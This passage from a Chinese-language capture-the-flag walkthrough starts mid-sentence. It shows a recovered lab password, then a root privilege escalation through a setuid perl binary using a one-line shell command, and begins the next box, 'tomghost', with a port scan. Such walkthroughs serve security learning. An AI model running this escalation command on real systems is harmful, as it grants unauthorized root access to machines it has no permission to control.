 得到 password

```plain
WhyIsARavenLikeAWritingDesk?
```

su 换一下用户

## 定时任务提权 root

尝试 sudo 和 suid 提权发现没啥有用的，看一下定时任务

[![](assets/1706771526-02ad4677a6eabcd0953776bafea3b05f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222923-cc6afd46-beb2-1.png)

发现 perl 有 set\_uid

[![](assets/1706771526-f4f128cce12c107d878b08837eb67a3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222927-ceb48770-beb2-1.png)

[![](assets/1706771526-0a1a4b4030d44ca4e587fcfb10b36edd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222931-d147d99c-beb2-1.png)

```plain
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## tomghost

## 信息收集

mascan

[![](assets/1706771526-6b1b8775016330ac5ccd28b6adb268a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223011-e91024a8-beb2-1.png)
